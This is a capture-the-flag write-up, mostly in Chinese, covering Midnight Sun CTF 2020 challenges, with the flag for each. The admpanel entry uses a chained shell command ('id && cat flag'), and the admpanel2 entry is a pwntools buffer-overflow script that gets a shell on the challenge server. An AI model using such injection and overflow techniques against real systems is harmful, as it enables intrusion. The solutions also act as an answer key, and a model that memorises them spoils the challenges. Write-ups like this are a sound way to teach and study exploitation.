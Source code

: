 # Writeup

## Sanity/misc

签到题

> midnight{n0_c0ugh1ng_0n_1rc}

## admpanel/pwd

> 知识点：逆向、Linux &&拼接命令

> 题解

1. IDA pro逆向，拿到密码password
2. id && cat flag

> midnight{n3v3r_4sk_b0bb_to_d0_S0m3TH4Ng}

## admpanel2/pwd

```python
from pwn import *

s = remote("admpanel2-01.play.midnightsunctf.se", 31337)

system = 0x000000000401598
username_addr = 0x000000000040159B

s.sendline(b"1")
s.sendline(b"admin")
s.sendline(b"password")
s.sendline(b"1")
s.sendline(b"/bin/sh" + b" " * 1024 )
s.sendline(b"2")
s.sendline(b"A" * cyclic_find(b"raac") + p64(system) + p64(username_addr))
s.interactive()
# midnight{n3ver_4sk_hsp3_t0_do_s0m3th1ng}
```

## Verifier/Crypto

> 知识点：签名

> 题解

1. 对``please_give_me_the_flag``签名
2. 拿到签名，获取flag

> midnight{number_used_once_or_twice_or_more}

## Pybonhash/Crypto re

1. 爆破key
2. AES解密，验证是否hash值(0123456789abcdef)

https://github.com/zeze-zeze/CTF/blob/master/Games/midnightsun2020/pybonhash/sol.py

> midnight{xwJjPw4Vp0Zl19xIdaNuz6zTeMQ1wlNP}

## rsa_yay/Crypto

https://mcfx.us/archives/281/#h2-rsa_yay

## Masterpiece/forensics

1. https://www.youtube.com/watch?v=mRb8Kz3wwFs

## Indian guessing/guessing

输入数据、如果能被系统二分法很近，则输了，所以输入``nan``

> midnight{rice_and_cu^H^Hsoju}

## WP

- [wp](https://ctftime.org/event/935/tasks/)
